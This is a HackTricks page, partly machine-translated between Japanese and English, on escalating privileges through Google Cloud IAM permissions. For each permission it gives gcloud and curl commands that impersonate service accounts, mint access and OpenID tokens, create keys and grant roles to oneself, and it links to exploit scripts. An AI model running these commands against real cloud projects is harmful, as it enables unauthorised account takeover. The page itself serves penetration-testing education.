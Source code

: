 # GCP - IAM Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## IAM

IAMに関する詳細情報は以下を参照してください：

{% content-ref url="../gcp-services/gcp-iam-and-org-policies-enum.md" %}
[gcp-iam-and-org-policies-enum.md](../gcp-services/gcp-iam-and-org-policies-enum.md)
{% endcontent-ref %}

### `iam.roles.update` (`iam.roles.get`)

上記の権限を持つ攻撃者は、あなたに割り当てられたロールを更新し、他のリソースへの追加権限を付与することができます。
```bash
gcloud iam roles update <rol name> --project <project> --add-permissions <permission>
```
ここに**脆弱な環境の作成、悪用、クリーンアップを自動化するスクリプト**があります。また、この特権を悪用するためのPythonスクリプトは[**こちら**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.roles.update.py)です。詳細については、[**元の研究**](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)を確認してください。

### `iam.serviceAccounts.getAccessToken` (`iam.serviceAccounts.get`)

言及された権限を持つ攻撃者は、**サービスアカウントに属するアクセストークンを要求することができる**ため、私たちの権限よりも多くの権限を持つサービスアカウントのアクセストークンを要求することが可能です。
```bash
gcloud --impersonate-service-account="${victim}@${PROJECT_ID}.iam.gserviceaccount.com" \
auth print-access-token
```
あなたは[**脆弱な環境の作成、悪用、クリーンアップを自動化するスクリプトはこちら**](https://github.com/carlospolop/gcp_privesc_scripts/blob/main/tests/4-iam.serviceAccounts.getAccessToken.sh)で見つけることができ、特権を悪用するためのPythonスクリプトは[**こちら**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccounts.getAccessToken.py)にあります。詳細については[**元の研究**](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)を確認してください。

### `iam.serviceAccountKeys.create`

前述の権限を持つ攻撃者は、**サービスアカウントのユーザー管理キーを作成する**ことができ、これによりそのサービスアカウントとしてGCPにアクセスできるようになります。
```bash
gcloud iam service-accounts keys create --iam-account <name> /tmp/key.json

gcloud auth activate-service-account --key-file=sa_cred.json
```
ここに[**脆弱な環境の作成、悪用、クリーンアップを自動化するスクリプト**](https://github.com/carlospolop/gcp_privesc_scripts/blob/main/tests/3-iam.serviceAccountKeys.create.sh)と、この特権を悪用するためのPythonスクリプトが[**こちら**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccountKeys.create.py)にあります。詳細については、[**元の研究**](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)を確認してください。

**`iam.serviceAccountKeys.update`はSAのキーを変更するためには機能しない**ことに注意してください。なぜなら、それを行うには`iam.serviceAccountKeys.create`の権限も必要だからです。

### `iam.serviceAccounts.implicitDelegation`

もし、**`iam.serviceAccounts.implicitDelegation`**の権限を持つサービスアカウントが、別のサービスアカウントに対して**`iam.serviceAccounts.getAccessToken`**の権限を持っている場合、implicitDelegationを使用して**その第三のサービスアカウントのトークンを作成することができます**。説明を助けるための図は以下の通りです。

![](https://rhinosecuritylabs.com/wp-content/uploads/2020/04/image2-500x493.png)

[**ドキュメント**](https://cloud.google.com/iam/docs/understanding-service-accounts)によると、`gcloud`の委任は[**generateAccessToken()**](https://cloud.google.com/iam/credentials/reference/rest/v1/projects.serviceAccounts/generateAccessToken)メソッドを使用してトークンを生成するためにのみ機能することに注意してください。したがって、APIを直接使用してトークンを取得する方法は以下の通りです：
```bash
curl -X POST \
'https://iamcredentials.googleapis.com/v1/projects/-/serviceAccounts/'"${TARGET_SERVICE_ACCOUNT}"':generateAccessToken' \
-H 'Content-Type: application/json' \
-H 'Authorization: Bearer '"$(gcloud auth print-access-token)" \
-d '{
"delegates": ["projects/-/serviceAccounts/'"${DELEGATED_SERVICE_ACCOUNT}"'"],
"scope": ["https://www.googleapis.com/auth/cloud-platform"]
}'
```
You can find a script to automate the [**作成、悪用、脆弱環境のクリーンアップはこちら**](https://github.com/carlospolop/gcp_privesc_scripts/blob/main/tests/5-iam.serviceAccounts.implicitDelegation.sh) and a python script to abuse this privilege [**こちら**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccounts.implicitDelegation.py). For more information check the [**元の研究**](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/).

### `iam.serviceAccounts.signBlob`

An attacker with the mentioned permissions will be able to **GCP内の任意のペイロードに署名する**. So it'll be possible to **SAの署名されていないJWTを作成し、それをblobとして送信してターゲットのSAによってJWTに署名させる**. For more information [**こちらを読む**](https://medium.com/google-cloud/using-serviceaccountactor-iam-role-for-account-impersonation-on-google-cloud-platform-a9e7118480ed).

You can find a script to automate the [**作成、悪用、脆弱環境のクリーンアップはこちら**](https://github.com/carlospolop/gcp_privesc_scripts/blob/main/tests/6-iam.serviceAccounts.signBlob.sh) and a python script to abuse this privilege [**こちら**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccounts.signBlob-accessToken.py) and [**こちら**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccounts.signBlob-gcsSignedUrl.py). For more information check the [**元の研究**](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/).

### `iam.serviceAccounts.signJwt`

An attacker with the mentioned permissions will be able to **適切に形成されたJSONウェブトークン（JWT）に署名する**. The difference with the previous method is that **JWTを含むblobに署名するのではなく、すでにJWTを期待するsignJWTメソッドを使用します**. This makes it easier to use but you can only sign JWT instead of any bytes.

You can find a script to automate the [**作成、悪用、脆弱環境のクリーンアップはこちら**](https://github.com/carlospolop/gcp_privesc_scripts/blob/main/tests/7-iam.serviceAccounts.signJWT.sh) and a python script to abuse this privilege [**こちら**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccounts.signJWT.py). For more information check the [**元の研究**](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/).

### `iam.serviceAccounts.setIamPolicy` <a href="#iam.serviceaccounts.setiampolicy" id="iam.serviceaccounts.setiampolicy"></a>

An attacker with the mentioned permissions will be able to **サービスアカウントにIAMポリシーを追加する**. You can abuse it to **自分に必要な権限を付与してサービスアカウントを偽装する**. In the following example we are granting ourselves the `roles/iam.serviceAccountTokenCreator` role over the interesting SA:
```bash
gcloud iam service-accounts add-iam-policy-binding "${VICTIM_SA}@${PROJECT_ID}.iam.gserviceaccount.com" \
--member="user:username@domain.com" \
--role="roles/iam.serviceAccountTokenCreator"

# If you still have prblem grant yourself also this permission
gcloud iam service-accounts add-iam-policy-binding "${VICTIM_SA}@${PROJECT_ID}.iam.gserviceaccount.com" \ \
--member="user:username@domain.com" \
--role="roles/iam.serviceAccountUser"
```
You can find a script to automate the [**作成、悪用、脆弱な環境のクリーンアップはここにあります**](https://github.com/carlospolop/gcp_privesc_scripts/blob/main/tests/d-iam.serviceAccounts.setIamPolicy.sh)**.**

### `iam.serviceAccounts.actAs`

**iam.serviceAccounts.actAs権限**は、**AWSのiam:PassRole権限**のようなものです。これは、Compute Engineインスタンスを起動するなどのタスクを実行するために不可欠であり、サービスアカウントとして「行動する」能力を付与し、安全な権限管理を確保します。これがなければ、ユーザーは不当なアクセスを得る可能性があります。さらに、**iam.serviceAccounts.actAs**を悪用するには、さまざまな方法があり、それぞれに一連の権限が必要であり、他の方法は1つの権限だけで済むのとは対照的です。

#### サービスアカウントのなりすまし <a href="#service-account-impersonation" id="service-account-impersonation"></a>

サービスアカウントになりすますことは、**新しいより良い権限を取得するために非常に便利です**。他のサービスアカウントを[なりすます方法は3つあります](https://cloud.google.com/iam/docs/understanding-service-accounts#impersonating_a_service_account):

* RSA秘密鍵を使用した**認証**（上記で説明）
* Cloud IAMポリシーを使用した**認可**（ここで説明）
* **GCPサービスでのジョブのデプロイ**（ユーザーアカウントの侵害により適用される）

### `iam.serviceAccounts.getOpenIdToken`

前述の権限を持つ攻撃者は、OpenID JWTを生成することができます。これらはアイデンティティを主張するために使用され、リソースに対する暗黙の認可を必ずしも持っているわけではありません。

この[**興味深い投稿**](https://medium.com/google-cloud/authenticating-using-google-openid-connect-tokens-e7675051213b)によると、トークンを認証に使用するサービス（オーディエンス）を示す必要があり、サービスアカウントとJWTのオーディエンスを示すgoogleによって署名されたJWTを受け取ります。

アクセスがあれば、OpenIDTokenを生成できます:
```bash
# First activate the SA with iam.serviceAccounts.getOpenIdToken over the other SA
gcloud auth activate-service-account --key-file=/path/to/svc_account.json
# Then, generate token
gcloud auth print-identity-token "${ATTACK_SA}@${PROJECT_ID}.iam.gserviceaccount.com" --audiences=https://example.com
```
その後、次のようにしてサービスにアクセスできます：
```bash
curl -v -H "Authorization: Bearer id_token" https://some-cloud-run-uc.a.run.app
```
いくつかのサービスは、この種のトークンを介して認証をサポートしています：

* [Google Cloud Run](https://cloud.google.com/run/)
* [Google Cloud Functions](https://cloud.google.com/functions/docs/)
* [Google Identity Aware Proxy](https://cloud.google.com/iap/docs/authentication-howto)
* [Google Cloud Endpoints](https://cloud.google.com/endpoints/docs/openapi/authenticating-users-google-id) (Google OIDCを使用している場合)

サービスアカウントの代わりにOpenIDトークンを作成する方法の例は[**こちら**](https://github.com/carlospolop-forks/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccounts.getOpenIdToken.py)で見つけることができます。

## 参考文献

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
AWSハッキングを学び、練習する：<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
GCPハッキングを学び、練習する：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**テレグラムグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**をフォローしてください。**
* **ハッキングのトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出してください。**

</details>
{% endhint %}
